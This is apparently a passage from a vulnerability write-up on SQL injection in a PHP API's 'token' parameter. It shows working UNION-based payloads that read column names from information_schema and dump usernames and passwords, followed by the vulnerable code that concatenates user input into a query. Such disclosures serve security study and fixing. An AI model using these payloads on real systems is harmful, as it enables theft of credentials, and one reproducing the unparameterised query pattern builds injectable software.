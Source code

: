 #### Extract columns names from the user table

token=212174768840da1c6a1604c8b485a0ee'union+select+1,group_concat(column_name),3,4,5+from+information_schema.columns+where+table_name='user'+and+table_schema=database()--+

![Image](/img/columnsnames.png)

#### Extract usernames and passwords inforamtion from the database

token=212174768840da1c6a1604c8b485a0ee'union+select+1,group_concat(username,0x3a,password),3,4,5+from+user--+

![Image](/img/dbusers.png)

#### Vulnerable Code

```
if( $_SERVER['REQUEST_METHOD'] == "GET"){

    if(isset($_GET['token'])){

        $token = $_GET['token'];

        $selectquer = $mysqli->query("SELECT * FROM user WHERE token='".$token."'");
         if($selectquer->num_rows > 0) {

             while($row = $selectquer->fetch_assoc()) {


             $username = $row['username'];
             $email = $row['email'];
             $token = $row['token'];
             $password = $row['password'];

             $response['code'] = 1;
             $response['status'] = $api_response_code[ $response['code'] ]['HTTP Response'];
             $response['data'] =  array(
                 username => $username,
```